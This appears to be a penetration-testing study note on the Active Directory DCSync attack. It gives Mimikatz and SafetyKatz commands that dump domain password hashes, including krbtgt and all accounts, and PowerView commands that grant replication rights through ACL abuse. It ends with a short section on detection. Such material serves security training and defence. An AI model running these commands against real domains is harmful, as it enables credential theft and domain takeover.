

Here is a comprehensive and structured note for the **DCSync Attack**, complete with a Mermaid diagram illustrating how the attack mimics a Domain Controller to request replication data. It includes the required permissions, execution methods using Mimikatz and SafetyKatz, and the technique to abuse AD ACLs to grant a normal user DCSync privileges.

***

> [!abstract] DCSync Attack
> DCSync is a technique where an attacker simulates the behavior of a Domain Controller (using the Directory Replication Service Remote Protocol - MS-DRSR) and requests the Domain Controller to sync credentials. This allows the attacker to dump password hashes (like the `krbtgt` or Administrator hashes) remotely without needing to copy the `ntds.dit` file.
> **MITRE ATT&CK Mapping:** [T1003.006 - OS Credential Dumping: DCSync](https://attack.mitre.org/techniques/T1003/006/)

## Attack Flow & Concept

> [!info] How DCSync Works
> To perform a DCSync attack, the attacker must have a user account with specific replication permissions (Domain Admin, Enterprise Admin, or Replication Operator by default). The attacker sends a replication request to the DC, pretending to be another DC. The DC responds by sending the requested password hashes.

![[Pasted image 20241225182553.png]]



---

## Required Permissions

> [!warning] Permissions Needed for DCSync
> By default, members of **Domain Admins** or **Enterprise Admins** have these rights. However, any account with the following extended rights on the domain root can perform DCSync:
> 
> - **DS-Replication-Get-Changes**
>   - **CN:** DS-Replication-Get-Changes
>   - **GUID:** `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`
> - **DS-Replication-Get-Changes-All**
>   - **CN:** DS-Replication-Get-Changes-All
>   - **GUID:** `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`
> - **DS-Replication-Get-Changes-In-Filtered-Set** (Not always needed, but good to check)
>   - **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   - **GUID:** `89e95b76-444d-4c62-991a-0facbeda640c`

---

## Execution

> [!danger]+ Mimikatz
> The traditional tool for executing DCSync. It can target a specific user or dump all domain hashes.
> 
> ```cmd
> :: Dump a specific user's hash (e.g., krbtgt)
> mimikatz # lsadump::dcsync /user:krbtgt
> 
> :: Dump a specific domain user
> mimikatz # lsadump::dcsync /user:domain\user
> 
> :: Dump ALL domain hashes
> mimikatz # lsadump::dcsync /all
> 
> :: Dump all hashes in CSV format
> mimikatz # lsadump::dcsync /all /csv
> ```

> [!bug]+ SafetyKatz
> SafetyKatz is a .NET project that combines a minimal version of Mimikatz with memory dumping techniques to bypass AV.
> 
> ```powershell
> SafetKatz.exe "lsadump::dcsync /user:domain\user" "exit"
> ```

---

## Abusing ACLs (Granting DCSync Rights)

> [!tip]+ Modify DACL (PowerView)
> If you have `GenericAll` or `WriteDacl` permissions on the domain root object, you can grant a standard user the DCSync privileges, allowing them to dump hashes without being a Domain Admin.
> 
> **Step 1: Check Current User Permissions**
> *Verify if your current user already has Replication or GenericAll rights on the domain root.*
> ```powershell
> Get-DomainObjectAcl -SearchBase "DC=adolf,DC=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -Match 'replication-get') -or ($_.ActiveDirectoryRights -Match 'GenericAll')} | % {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -Match "cna"}
> ```
> 
> **Step 2: Grant DCSync Rights to a Normal User**
> *Use PowerView to add the required replication rights to a standard user.*
> ```powershell
> Add-DomainObjectAcl -TargetIdentity 'dc=adolf,dc=local' -PrincipalIdentity Normalusername -Rights DCSync -PrincipalDomain adolf.local -TargetDomain adolf.local -verbose
> ```

> [!warning] OPSEC & Detection
> - **Event Logs:** DCSync generates **Event ID 4662** (An operation was performed on an object) on the Domain Controller. Defenders look for 4662 events where the user is *not* a Domain Controller, and the Properties contain the replication GUIDs (`1131f6aa...` and `1131f6ad...`).
> - **Network Traffic:** Unusual MS-DRSR traffic originating from non-DC machines is highly suspicious.

